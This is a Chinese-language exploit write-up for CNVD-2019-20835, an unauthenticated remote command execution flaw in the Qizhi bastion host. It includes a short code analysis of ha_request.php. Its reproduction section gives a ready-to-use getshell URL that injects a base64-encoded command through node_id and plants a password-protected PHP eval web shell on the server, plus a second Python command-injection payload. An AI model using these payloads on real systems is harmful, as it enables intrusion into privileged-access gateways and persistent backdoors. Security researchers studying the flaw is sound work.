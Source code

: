 （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用条件：无需登录

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

问题出现在ha\_request.php文件，第37行的exec函数，\$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node\_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

　　Node\_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求\$url，并返回其内容。根据代码逻辑，\$url
=
\"http://\$req\_ipaddr\".\"/listener/\$method.php?n=\$req\_node\_id&a=\".urlencode(json\_encode(\$args));。所以\$url变量值类似于

<http://10.20.10.11/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

　　但是\$req\_ipaddr和\$req\_node\_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster\_manage.php文件的内容为"\<?php
echo
'OK';\>"，即可使得node\_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

　　回到exec函数，此时该函数的第一个参数是这样的，\"wget
\--no-check-certificate http://10.20.10.11
/ha\_get\_install.php?n=\$req\_node\_id -O
backup\_scripts.tar.bz2\"，所以我们的payload只能放在\$req\_node\_id变量中。

　　见下图，\$req\_ipaddr和\$req\_node\_id其实来自于\$\_REQUEST\['ipaddr'\]和\$\_REQUEST\[node\_id'\]，并做了全局过滤，删除掉一些危险字符。![1.png](./resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId26.png)![2.png](./resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId27.png)![3.png](./resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId28.png)

### 漏洞复现

访问**http://www.0-sec.org/listener/cluster\_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php
密码10086

    https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}

据说还有另外一个版本是java的:

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```



参考链接
--------

> https://www.cnblogs.com/StudyCat/p/11256944.html
